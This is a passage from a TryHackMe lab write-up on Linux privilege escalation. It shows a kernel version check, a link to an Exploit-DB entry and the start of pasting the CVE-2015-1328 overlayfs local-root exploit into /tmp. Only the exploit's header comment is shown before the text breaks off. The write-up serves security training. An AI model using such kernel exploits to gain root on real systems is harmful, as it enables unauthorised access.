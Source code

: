 # Linux Privilege Escalation

URL: https://tryhackme.com/room/linprivesc

Level: Medium

Date: 28 Jul 2023

- [Kernel exploits](#kernel-exploits)
- [Sudo](#sudo)
	- [LD_PRELOAD](#ld-preload)
- [SUID](#suid)
- [Capabilities](#capabilities)
- [Cron Jobs](#cron-jobs)
- [PATH](#path)
- [NFS](#nfs)
- [Capstone Challenge](#capstone-challenge)




## kernel exploits

Kernel version

```bash
$ uname -ar
Linux wade7363 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

Exploit-DB:

https://www.exploit-db.com/exploits/37292

We have `gcc`? yes

```bash
$ gcc
gcc: fatal error: no input files
compilation terminated.
$
```

```bash
$ cat > /tmp/exploit.c
/*
# Exploit Title: ofs.c - overlayfs local root in ubuntu
# Date: 2015-06-15
# Exploit Author: rebel
# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)
# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04
# CVE : CVE-2015-1328     (http://people.canonical.com/~ubuntu-security/cve/2015/CVE-2015-1328.html)

*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*
CVE-2015-1328 / ofs.c
overlayfs incorrect permission handling + FS_USERNS_MOUNT

user@ubuntu-server-1504:~$ uname -a
Linux ubuntu-server-1504 3.19.0-18-generic #18-Ubuntu SMP Tue May 19 18:31:35 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
user@ubuntu-server-1504:~$ gcc ofs.c -o ofs
..
..
..
```
